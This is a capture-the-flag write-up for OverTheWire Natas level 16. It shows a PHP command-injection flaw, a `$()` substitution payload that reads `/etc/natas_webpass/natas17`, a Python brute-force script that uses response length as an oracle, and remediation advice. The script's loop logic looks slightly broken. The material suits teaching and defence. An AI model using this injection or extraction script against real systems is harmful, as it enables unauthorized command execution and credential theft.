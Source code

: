 # [Over The Wire (natas)] – [[Platform](http://natas16.natas.labs.overthewire.org/)] – [09/25/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [16]
- Difficulty: [Medium]

## Tools Used
- Chromium Browser
- Burp Suite (proxy + repeater)

## Login
1. Logged in with credentials:
   - **Username**: `natas16
   - **Password**: `XXXXXX`
  
2. Screenshot:
   ![alt text](image-24.png)
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas16.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content
   ```php
      $key = "";

      if(array_key_exists("needle", $_REQUEST)) {
         $key = $_REQUEST["needle"];
      }

      if($key != "") {
         if(preg_match('/[;|&`\'"]/',$key)) {
            print "Input contains an illegal character!";
         } else {
            passthru("grep -i \"$key\" dictionary.txt");
         }
      }
   ```
   - this roughly translates into 
  
   - this takes in needle param and makes the key variable
  
   - if there is a key not blank continue
    pick up illegal characters (; | & ` ' ")
    then use grep on the dictionary.txt 

   
4. Steps taken (command substituation):

   1. Since the input is checked for illegal characters this discards the options for command chaining, string termination and injection, file globbing. However only closed the option for one way to command substitute with the backtick ( \` ), the other options is the $().

   2. I could nest a grep search inside another grep search and try to guess the password one index at a time.
   
   3. The main idea would be to have grep check if the password in the file of `/etc/natas_webpass/natas17` started with a substring. 

   4. I attempted a burp suite sniper attack using Interpreter of 62 attempts of alphanumeric characters (a-zA-z0-9). `?needle=$(grep%20^{guess}%20/etc/natas_webpass/natas17)`

   5. All responded with same status code: 200 and roughly in server response time about the same, however only one of the responses came back with a shorter Content-Length. 

   6. Using a python script that builds up the "password" using this method. 
   

   ```python
      import requests
      from requests.auth import HTTPBasicAuth

      def main():
         # --- Configuration ---
         url = "http://natas16.natas.labs.overthewire.org/"
         auth = HTTPBasicAuth("natas16", "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX")  # replace with actual
         charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

         password = ""  # will accumulate discovered characters

         # --- Loop through each position (1 to 32) ---
         while len(password) < 32:
            found = False
            for c in charset:
                  guess = password + c
                  
                  payload = f'{url}?needle=$(grep%20^{guess}%20/etc/natas_webpass/natas17)'
                  test = {"needle": '$(grep%20^E%20/etc/natas_webpass/natas17)'}
                  params = {"needle": payload}
                  
                  # Send request
                  r = requests.get(payload, auth=auth)

                  length_of_response = len(r.text) < 461926
                  if (length_of_response):
                     found = True
                     password += c

         return password
         

      if __name__ == "__main__":
         ans = main()
         print(f"\n[!] Full password: {ans}")

   ```
   
   7. This produced the flag.
   

---

🔑 **Why this works**: 

   - User input (needle) is inserted directly into a shell command passed to passthru() without safe sanitization.

   - The blacklist only blocks a few characters (; | & \ ' "), leaving other powerful constructs (e.g. $()` command substitution) usable.

   - Command substitution runs on the server before the outer grep is executed, allowing an attacker to run arbitrary commands and capture their stdout.

   - grep + dictionary.txt is a decoy: the application prints command output (or predictable results) even when the outer search does not match, which can be abused as an oracle.

   - The combination of substitution + visible stdout enables automated, incremental extraction (character-by-character or single-shot reads) of sensitive files like /etc/natas_webpass/*.
   

---

💥 **Impact**

   - Full disclosure of sensitive credentials (the next-level password) in a single request or via automated probing.

   - Unauthorized privilege escalation / lateral movement within the lab or system if other accounts/files are accessible.

   - Ability for an attacker to run arbitrary shell commands on the host (command execution) using allowed constructs.

   - Automated attacks are simple to script, making the vulnerability high-risk and easy to exploit at scale.

   - Information leakage and loss of challenge integrity; similar vulnerabilities in production could lead to severe data breaches.

---
  
🛠️ **Remediation**

   - Never interpolate user input directly into shell commands; remove passthru()/system()/exec() usage for handling user-controlled strings.

   - Use safe APIs instead of shelling out (e.g., use native file I/O or library search functions) or properly escape inputs with well-tested libraries.

   - Enforce an input whitelist (allow only expected characters/values) rather than trying to blacklist dangerous characters.

   - Drop unnecessary file permissions; keep secret files out of world-readable paths and restrict file access to the minimal required account.

   - Add strong logging, monitoring and rate-limiting to detect automated probing and unusual command patterns.

   - Run web applications with least privilege and remove or harden any debug or source-disclosure endpoints.